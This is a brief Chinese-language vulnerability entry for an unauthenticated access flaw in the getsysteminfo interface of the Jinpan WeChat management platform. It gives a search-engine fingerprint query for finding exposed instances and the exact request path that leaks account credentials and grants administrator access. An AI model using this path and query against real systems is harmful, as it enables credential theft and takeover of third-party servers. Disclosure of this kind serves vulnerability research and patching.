

# 金盘 微信管理平台 getsysteminfo 未授权访问漏洞

## 漏洞描述

金盘 微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限

## 漏洞影响

<a-checkbox checked>金盘 微信管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="微信管理后台" && icon_hash="116323821"</a-checkbox></br>

## 漏洞复现

登陆页面



验证POC

```python
/admin/weichatcfg/getsysteminfo
```

